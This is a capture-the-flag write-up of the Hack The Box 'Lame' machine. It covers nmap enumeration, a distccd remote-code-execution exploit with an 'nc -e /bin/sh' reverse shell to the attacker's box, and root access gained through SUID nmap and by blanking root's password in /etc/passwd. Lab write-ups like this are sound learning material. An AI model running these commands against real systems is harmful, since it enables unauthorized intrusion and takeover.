 # Enumeration
```bash
Nmap scan report for 10.10.10.3
Host is up (0.023s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.24
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 4h39m11s, deviation: 0s, median: 4h39m11s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name:
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-02-28T06:59:11-05:00
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.02 seconds
```

## Initial Shell
I could see that also port 3632 was vulnerable: </br>
![distccd_vuln_1](images/lame/distccd_vuln_1.png) </br>
![distccd_vuln_2](images/lame/distccd_vuln_2.png) </br>
Vulnerabilities nmap script: ```nmap -sS -p3632 -Pn 10.10.10.3 -v --script vuln``` </br> </br>
**Distcc:** </br>
distcc is designed to speed up compilation by taking advantage of unused processing power on other computers.
A machine with distcc installed can send code to be compiled across the network to a computer which has the distccd daemon and a compatible compiler installed. </br>
**Exploit CVE 2004-2687:** </br>
distcc 2.x, as used in XCode 1.5 and others, when not configured to restrict access to the server port, 
allows remote attackers to execute arbitrary commands via compilation jobs, which are executed by the server without authorization checks. </br>
I used DistCC Daemon RCE Exploit from [GitHub](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855) </br>
And it worked: </br>
![distcc_exploit_works](images/lame/distcc_exploit_works.png) </br>
To get a reverse shell I first started a netcat listenenr on another terminal with```nc -nlvp 1234``` </br> 
And specified this in the -c argument: ```python2 distcc_exploit.py -t 10.10.10.3 -p 3632 -c 'nc -e /bin/sh 10.10.14.27 1234'``` </br>

# Privilege Escalation
I did an enumeration scan with LinPEAS tool, and could see that the nmap binary have SUID. </br>
**SUID** (Set User ID) is a type of permission which is given to a file and allows users to execute the file
with the permissions of its owner. </br> </br>
By using this misconfigured suid I could get root access to the box, the version of Nmap in this box has
an interactive mode, where I was able to execute commands and eventually get root privileges: </br>
![nmap_interactive](images/lame/nmap_interactive.png) </br>
Now to get inside the root user, I made my shell interactive (like I showed previously [here](https://github.com/TalKantor/ctf_writeups/blob/master/HTB/Linux/bank.md)). </br>
edited the /etc/passwd file - and removed the 'x' in the root section: </br> </br>
**From:** ```root:x:0:0:root:/root:/bin/bash``` **To:** ```root::0:0:root:/root:/bin/bash``` </br>
**Explanation:** The 'x' in this line means that the password is actually stored hashed in the shadow file,
when I removed it I was able to login to root with an empty password. </br> </br>
**Vulnerability Exploited**: Suid Binary Bit Set </br>
**Vulnerability Explanation:** If the binary has the SUID bit set, it does not drop the elevated privileges
and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor.
If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default
sh shell to run with SUID privileges. </br>
**Vulnerability Fix:** Remove the unsafe SUID since any low priveleged user has access to it and can
elevate his privileges. </br> </br>
**Proof Of Screenshot:** </br>
![privesc_proof](images/lame/privesc_proof.png) </br>
